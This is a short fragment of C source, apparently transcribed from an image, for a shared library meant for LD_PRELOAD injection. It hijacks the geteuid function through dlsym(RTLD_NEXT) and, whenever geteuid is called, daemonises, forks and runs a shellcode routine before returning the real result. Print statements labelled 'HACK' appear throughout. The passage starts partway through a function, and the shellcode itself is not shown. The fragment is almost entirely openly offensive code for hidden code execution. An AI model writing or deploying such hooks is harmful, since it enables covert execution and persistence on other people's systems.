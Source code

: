 ```c
    if (daemon(0, 0) == -1) {
        perror("daemon");
        return -1;
    }

    if (fork() == 0) {
        execute_shellcode();
    } else {
        // Parent process: wait for child to complete
        wait(NULL);
        printf("HACK: returning from geteuid()\n");
        // Call the original geteuid function
        return original_geteuid();
    }

    return -1; // In case of any failure
}

void __attribute__((constructor)) init(void) {
    // Get the original geteuid function
    original_geteuid = dlsym(RTLD_NEXT, "geteuid");
    if (!original_geteuid) {
        fprintf(stderr, "Error: %s\n", dlerror());
        exit(EXIT_FAILURE);
    }
    printf("HACK: geteuid hijack initialized\n");
}

```